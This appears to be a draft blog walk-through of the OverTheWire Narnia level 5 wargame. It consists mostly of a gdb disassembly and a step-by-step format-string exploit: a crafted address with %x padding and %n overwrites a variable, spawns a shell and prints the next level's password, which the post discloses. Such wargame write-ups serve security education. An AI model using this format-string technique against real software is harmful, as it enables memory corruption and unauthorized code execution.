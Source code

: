 +++
title = "Over the wire - narnia05"
description = "Walk-through"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-05"
project_url = "https://greyhat.dk/over-the-wire-narnia-05"
type = "post"
+++



(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484bd <+0>:	push   ebp
   0x080484be <+1>:	mov    ebp,esp
   0x080484c0 <+3>:	and    esp,0xfffffff0
   0x080484c3 <+6>:	sub    esp,0x60
   0x080484c6 <+9>:	mov    DWORD PTR [esp+0x5c],0x1
   0x080484ce <+17>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484d1 <+20>:	add    eax,0x4
   0x080484d4 <+23>:	mov    eax,DWORD PTR [eax]
   0x080484d6 <+25>:	mov    DWORD PTR [esp+0x8],eax
   0x080484da <+29>:	mov    DWORD PTR [esp+0x4],0x40
   0x080484e2 <+37>:	lea    eax,[esp+0x1c]
   0x080484e6 <+41>:	mov    DWORD PTR [esp],eax
   0x080484e9 <+44>:	call   0x80483b0 <snprintf@plt>
   0x080484ee <+49>:	mov    BYTE PTR [esp+0x5b],0x0
   0x080484f3 <+54>:	mov    DWORD PTR [esp],0x8048610
   0x080484fa <+61>:	call   0x8048350 <printf@plt>
   0x080484ff <+66>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048503 <+70>:	cmp    eax,0x1f4
   0x08048508 <+75>:	jne    0x8048522 <main+101>
   0x0804850a <+77>:	mov    DWORD PTR [esp],0x8048631
   0x08048511 <+84>:	call   0x8048360 <puts@plt>
   0x08048516 <+89>:	mov    DWORD PTR [esp],0x8048636
   0x0804851d <+96>:	call   0x8048370 <system@plt>
   0x08048522 <+101>:	mov    DWORD PTR [esp],0x8048640
   0x08048529 <+108>:	call   0x8048360 <puts@plt>
   0x0804852e <+113>:	lea    eax,[esp+0x1c]
   0x08048532 <+117>:	mov    DWORD PTR [esp],eax
   0x08048535 <+120>:	call   0x8048390 <strlen@plt>
   0x0804853a <+125>:	mov    DWORD PTR [esp+0x8],eax
   0x0804853e <+129>:	lea    eax,[esp+0x1c]
   0x08048542 <+133>:	mov    DWORD PTR [esp+0x4],eax
   0x08048546 <+137>:	mov    DWORD PTR [esp],0x8048661
   0x0804854d <+144>:	call   0x8048350 <printf@plt>
   0x08048552 <+149>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048556 <+153>:	lea    edx,[esp+0x5c]
   0x0804855a <+157>:	mov    DWORD PTR [esp+0x8],edx
   0x0804855e <+161>:	mov    DWORD PTR [esp+0x4],eax
   0x08048562 <+165>:	mov    DWORD PTR [esp],0x8048675
   0x08048569 <+172>:	call   0x8048350 <printf@plt>
   0x0804856e <+177>:	mov    eax,0x0
   0x08048573 <+182>:	leave
   0x08048574 <+183>:	ret
End of assembler dump.
(gdb)
(gdb) r AAAA%x%x%x%x%x
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia5 AAAA%x%x%x%x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7eb85b6ffffffffffffd68ef7e30bf841414141] (44)
i = 1 (0xffffd6ac)
[Inferior 1 (process 18256) exited normally]
(gdb) r $(python -c 'print "AAAA\xbc\xd6\xff\xff%x%x%x%x%x"')
Starting program: /games/narnia/narnia5 $(python -c 'print "AAAA\xbc\xd6\xff\xff%x%x%x%x%x"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA����f7eb85b6ffffffffffffd68ef7e30bf841414141] (48)
i = 1 (0xffffd6ac)
[Inferior 1 (process 18739) exited normally]
(gdb) r $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%x"')
Starting program: /games/narnia/narnia5 $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%x"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA����f7eb85b6ffffffffffffd68ef7e30bf841414141] (48)
i = 1 (0xffffd6ac)
[Inferior 1 (process 19175) exited normally]
(gdb) r $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%500d%n"')
Starting program: /games/narnia/narnia5 $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%500d%n"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA����f7eb85b6ffffffffffffd68ef7e30bf8                       ] (63)
i = 540 (0xffffd6ac)
[Inferior 1 (process 19434) exited normally]
(gdb) r $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%460d%n"')
Starting program: /games/narnia/narnia5 $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%460d%n"')
Change i's value from 1 -> 500. GOOD
$
No way...let me give you a hint!
buffer : [AAAA����f7eb85b6ffffffffffffd68ef7e30bf8                       ] (63)
i = 500 (0xffffd6ac)
[Inferior 1 (process 19616) exited normally]
(gdb) quit
narnia5@melinda:/narnia$ /games/narnia/narnia5 $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%460d%n"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA����f7eb85b6ffffffffffffd67ef7e30bf8                       ] (63)
i = 1 (0xffffd69c)
Segmentation fault
narnia5@melinda:/narnia$ /narnia/narnia5 $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%460d%n"')
Change i's value from 1 -> 500. GOOD
$ cat /etc/narnia_pass/narnia6
neezocaeng
